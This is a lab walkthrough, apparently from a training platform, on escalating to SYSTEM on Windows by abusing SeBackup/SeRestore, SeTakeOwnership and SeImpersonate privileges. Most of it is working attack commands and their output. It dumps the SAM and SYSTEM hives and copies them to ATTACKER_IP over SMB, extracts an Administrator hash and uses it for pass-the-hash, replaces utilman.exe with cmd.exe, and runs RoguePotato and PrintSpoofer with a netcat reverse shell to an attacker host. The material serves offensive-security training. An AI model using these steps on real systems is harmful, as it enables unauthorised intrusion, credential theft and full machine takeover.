







Abusing Dangerous Privileges
Abusing Dangerous Privileges
Windows Privileges
Privileges are rights that an account has to perform specific system-related tasks. These tasks can be as simple as the privilege to shut down the machine up to privileges to bypass some DACL-based access controls.
Each user has a set of assigned privileges that can be checked with the following command:
whoami /priv
A complete list of available privileges on Windows systems is available here. From an attacker's standpoint, only those privileges that allow us to escalate in the system are of interest. You can find a comprehensive list of exploitable privileges on the Priv2Admin Github project.
While we won't take a look at each of them, we will showcase how to abuse some of the most common privileges you can find.
A) SeBackup / SeRestore
The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.
Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the SAM and SYSTEM registry hives to extract the local Administrator's password hash.
Log in to the target machine via RDP using the following credentials:
User: THMBackup
Password: CopyMaster555
This account is part of the "Backup Operators" group, which by default is granted the SeBackup and SeRestore privileges. We will need to open a command prompt using the "Open as administrator" option to use these privileges. We will be asked to input our password again to get an elevated console:
Run as admin
Once on the command prompt, we can check our privileges with the following command:
Command Prompt
C:\> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ======================================
SeBackupPrivilege Back up files and directories Disabled
SeRestorePrivilege Restore files and directories Disabled
SeShutdownPrivilege Shut down the system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
To backup the SAM and SYSTEM hashes, we can use the following commands:
Command Prompt
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.
C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's smbserver.py to start a simple SMB server with a network share in the current directory of our AttackBox:
Kali Linux
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
This will create a share named public pointing to the share directory, which requires the username and password of our current windows session. After this, we can use the copy command in our windows machine to transfer both files to our AttackBox:
Command Prompt
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
And use impacket to retrieve the users' password hashes:
Kali Linux
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:
Kali Linux
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.153.249
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32> whoami
nt authority\system
B) SeTakeOwnership
The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable. For this task, we will be taking a different route, however.
Log in to the target machine via RDP using the following credentials:
User: THMTakeOwnership
Password: TheWorldIsMine2022
To get the SeTakeOwnership privilege, we need to open a command prompt using the "Open as administrator" option. We will be asked to input our password to get an elevated console:
Run as admin
Once on the command prompt, we can check our privileges with the following command:
Command Prompt
C:\> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ================================================
SeTakeOwnershipPrivilege Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
We'll abuse utilman.exe to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:
utilman normal behaviour

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.
To replace utilman, we will start by taking ownership of it with the following command:
Command Prompt
C:\> takeown /f C:\Windows\System32\Utilman.exe
SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need. To give your user full permissions over utilman.exe you can use the following command:
Command Prompt
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
After this, we will replace utilman.exe with a copy of cmd.exe:
Command Prompt
C:\Windows\System32\> copy cmd.exe utilman.exe
1 file(s) copied.
To trigger utilman, we will lock our screen from the start button:

And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:

C) SeImpersonate / SeAssignPrimaryToken
I - Rogue Potato
II - Juicy Potato
III - PrintSpoofer
I - Rogue Potato
These privileges allow for a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process under the security context of another user. This is used by services that need to allow different users to access various resources, allowing the server to provide access restricted to a user's permissions easily.
Impersonation is easily understood when you think about how an FTP server works. The FTP server needs to restrict each user to only access the files they are allowed to see. While the FTP server could implement its own access lists, it is easier to enable the server to impersonate each user, delegating access control to the operating system itself. When a user logs in to the FTP server, the server spawns a new process impersonating the connecting user. Such a process will inherit an access token with all of the privileges of the connecting user.
As attackers, if we take control of a process with SeImpersonate or SeAssignPrimaryToken privileges, we can impersonate any user connecting and authenticating to that process.
In Windows systems, you will find that the LOCAL SERVICE and NETWORK SERVICE ACCOUNTS already have such privileges enabled. Since these accounts are used to spawn services using restricted accounts, it makes sense to allow them to impersonate connecting users if needed by the service. Internet Information Services (IIS) will also create a similar default account called "iis apppool\defaultapppool" for web applications.
To elevate privileges using such accounts, an attacker needs the following:
▸ To be able to spawn a process so that users can connect and authenticate to it for impersonation to occur
▸ Find a way to force privileged users to connect and authenticate to the spawned malicious process.
We will be using the RoguePotato exploit for this exercise to accomplish both conditions. You will find other "potato" exploits meant for different specific Windows versions but use the same underlying principles (and different methods) to achieve privilege escalation.
Let's start by assuming we have already compromised a website running on IIS and that we have planted a web shell on the following address:
http://10.10.175.222/
We can use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:

To use RoguePotato, we first need to upload the exploit to the target machine. For your convenience, this has already been done, and you can find the exploit in the C:\tools\ folder.
While we won't explain the exploit in detail, we do need to understand a few things to run it:
The exploit will force the victim machine to try and instantiate an object through DCOM against the attacker's machine. To know how to connect to that specific object, the client machine will perform a process known as Object eXporter IDentifier (OXID) resolution. Simpy put, OXID resolution is the process in which a client machine sends the OXID they want to connect to, and receives instructions from the server on how to actually contact the object in question, which in this case is achieved through a named pipe. OXID resolution occurs through port 135/TCP.
The OXID resolver (controlled by the attacker) will spoof a response to force a connection against a non-existent named pipe that the exploit itself will register in the target system. The named pipe will require authentication, which will then be used to impersonate the connecting user.
Port 135 is used in any default Windows installation, making it impossible to bind the fake OXID resolver on the same target machine. To overcome this, the exploit will connect back to the attacker machine, which will need to redirect the OXID resolution query back to the target machine on a different port than 135. This can be easily done using socat.
With this in mind, let's start by setting up socat to forward any connection on port 135 of the attacker's machine back to the victim on an arbitrary port, say 9999:
Kali Linux
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.175.222:9999
We'll start a netcat listener to receive a reverse shell on our attacker's machine:
Kali Linux
nc -lvp 7777
And finally, use our web shell to trigger the RoguePotato exploit using the following command:
c:\tools\roguepotato\RoguePotato.exe -r ATTACKER_IP -e "C:\tools\nc64 -e cmd.exe ATTACKER_IP ATTACKER_PORT" -l 9999
The -l parameter specifies the port on the victim machine where the OXID resolver will listen, which in this case is port 9999. The -r parameter indicates the remote OXID resolver address and points to our attacker machine, which will forward the connection through socat and back to the victim on port 9999. The -e parameter allows us to specify the payload to be run by the exploit, in this case, a netcat reverse shell.
If all was correctly set up, you should expect a shell with SYSTEM privileges:
Kali Linux
nc -lvp 7777
Listening on 0.0.0.0 4448
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
nt authority\system
Another Example:
Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows:
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.255.20:9999
Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
Note: The “local service” account has SeImpersonate / SeAssignPrimaryToken active as we can see below in Listner-1.
Start another listener on Kali.
Now, in the "local service" reverse shell you triggered, run the RoguePotato exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):
C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
Listener-1:

Listener-2:

III - PrintSpoofer
Here, unlike Rogue Potato we do not need an additional server for the exploit to work.
Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
Note: The “local service” account has SeImpersonate / SeAssignPrimaryToken active as we can see above in Listner-1.
Start another listener on Kali.
Now, in the "local service" reverse shell you triggered, run the PrintSpoofer exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
Listener-3

END